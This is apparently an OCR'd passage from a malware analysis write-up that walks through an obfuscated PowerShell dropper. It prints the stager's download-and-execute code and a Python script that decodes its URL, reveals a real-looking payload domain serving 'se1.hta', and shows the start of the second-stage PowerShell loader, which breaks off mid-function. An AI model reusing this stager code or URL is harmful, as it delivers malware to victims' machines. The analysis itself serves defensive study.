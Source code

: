 ```powershell
        try{
            $zRavFAQNJqOVxb += nvRClWiAJT $vecsWHuXBHu.Substring($TJuYrHOorcZu,2)
        } 
        catch{
            $zRavFAQNJqOVxb += $vecsWHuXBHu.Substring($TJuYrHOorcZu,1)
        }
    };
    $zRavFAQNJqOVxb
}; 

$NpzibtULgyi = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht'; 
$cDkdhkGBtl = $env:APPDATA + '\' + ($NpzibtULgyi -split '/')[-1]; 
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; 
$wbpiCTsGYi = wget $NpzibtULgyi -UseBasicParsing; 
[IO.File]::WriteAllText($cDkdhkGBtl, $wbpiCTsGYi); & $cDkdhkGBtl; 
sleep 3; 
rm $cDkdhkGBtl;
```

The script will create a new string which will be the URL to the next payload, the script will take the obfuscated URL string and will deobfuscate it in several steps:
1. The string will be reversed by the function `nvRClWiAJT`.
2. a for loop will iterate through the flipped string and will jump every 2 chars.
3. each iteration 2 chars will be flipped again, and in the last iteration the last char will flipped also but it won't have any effect.

Here is a quick python script that does this process:


```python
input_string = 'aht1.sen/hi/coucys.erstmaofershma//s:tpht'[::-1]
output_string = ''

for i in range(0, len(input_string), 2):
    try:
        tmp = input_string[i] + input_string[i + 1]
        output_string += tmp[::-1]
    except:
        output_string += input_string[i]

print(output_string)        
```

    https://masherofmasters.cyou/chin/se1.hta


# se1.hta
The fetched payload will be yet another powershell script:
```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -ExecutionPolicy UnRestricted 

function WQgtWbWK($FL, $i){
    [IO.File]::WriteAllBytes($FL, $i)
};

function APcZNMgjQ($FL){
    if($FL.EndsWith((QXUpF @(4995,5049,5057,5057))) -eq $True){
        Start-Process (QXUpF @(5063,5066,5059,5049,5057,5057,5000,4999,4995,5050,5069,5050)) $FL
    }else{
        Start-Process $FL
    }
};

function laiLJMT($eh){
    $LM = New-Object (QXUpF @(5027,5050,5065,4995,5036,5050,5047,5016,5057,5054,5050,5059,5065));
```
